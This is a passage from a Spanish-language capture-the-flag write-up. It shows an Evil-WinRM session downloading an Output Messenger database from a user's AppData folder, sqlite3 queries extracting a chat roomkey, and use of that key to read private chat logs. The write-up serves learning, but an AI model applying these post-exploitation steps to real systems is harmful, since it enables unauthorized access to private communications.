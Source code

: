 ```bash
Info: Download successful!

*Evil-WinRM* PS C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA> download OT.db3
                                        
Info: Downloading C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA\OT.db3 to OT.db3
                                        
Info: Download successful!

```

Al revisar el archivo `OM.db3` con la herramienta de `sqlite3`, verificamos que hemos logrado obtener la `roomkey` del chat `Chiefs_Marketing_chat.`

```bash
❯ ls -l OM.db3
.rwxrwxr-x kali kali 31 KB Fri Jan 17 23:58:16 2025  OM.db3

❯ sqlite3 OM.db3
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
om_chatroom               om_drive_files            om_preset_message       
om_chatroom_user          om_escape_message         om_reminder             
om_custom_group_new       om_hide_usergroup         om_settings             
om_custom_group_user_new  om_notes                  om_user_master          
om_custom_status          om_notes_user             om_user_photo           
sqlite> select * from om_chatroom;
1|General_chat|20240219160702@conference.com|General_chat||20240219160702@conference.com|1|2024-02-20 01:07:02.909|0|0||0|0|1||
2|Chiefs_Marketing_chat|20240220014618@conference.com|Chiefs_Marketing_chat||20240220014618@conference.com|1|2024-02-20 10:46:18.858|0|0||0|0|1||
sqlite>
```

Ya disponemos de lo que parece ser la `roomkey` del **chat room** que queremos ver sus logs.

Por lo tanto, siguiendo el `API Helper` de la documentación del `Output Messenger` que nos encontramos, procederemos a ver los logs de las fechas recientes. En la conversación con `O.martinez`, la conversación que mantienen es el 20 de Febrero de 2024.

En este caso, buscaremos los logs entre las fechas del 19 al 20 de febrero utilizando la `roomkey`. Verificamos que hemos logrado al parecer leer los logs de este chat.

<figure><img src="../../../.gitbook/assets/imagen (21).png" alt=""><figcaption></figcaption></figure>
